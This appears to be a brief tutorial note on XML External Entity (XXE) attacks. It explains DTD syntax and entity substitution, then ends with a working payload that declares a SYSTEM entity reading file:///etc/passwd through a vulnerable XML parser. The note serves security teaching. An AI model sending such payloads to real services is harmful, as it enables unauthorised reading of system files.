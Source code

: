 # XXE

XML External Entity

## DTD

DTD Stands for Document Type Definition

```xml
<!DOCTYPE note [ <!ELEMENT note (to,from,heading,body)> <!ELEMENT to (#PCDATA)> <!ELEMENT from (#PCDATA)> <!ELEMENT heading (#PCDATA)> <!ELEMENT body (#PCDATA)> ]>
```

- `#PCDATA` means parseable character data.
- `!DOCTYPE note` - Defines a root element of the document named note
- `!ELEMENT note` - Defines that the note element must contain the elements: "to, from, heading, body"
- `!ELEMENT to` - Defines the to element to be of type "#PCDATA"
- `!ELEMENT from` - Defines the from element to be of type "#PCDATA"
- `!ELEMENT heading` - Defines the heading element to be of type "#PCDATA"
- `!ELEMENT body` - Defines the body element to be of type "#PCDATA"

```xml
<!DOCTYPE replace [<!ENTITY name "feast"> ]>
 <userInfo>
  <firstName>falcon</firstName>
  <lastName>&name;</lastName>
 </userInfo>
```

Here, `&name` gets replaced by `"feast"`

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```

Here `&read` gets replaced by the specified file. Here the `SYSTEM` option is important.
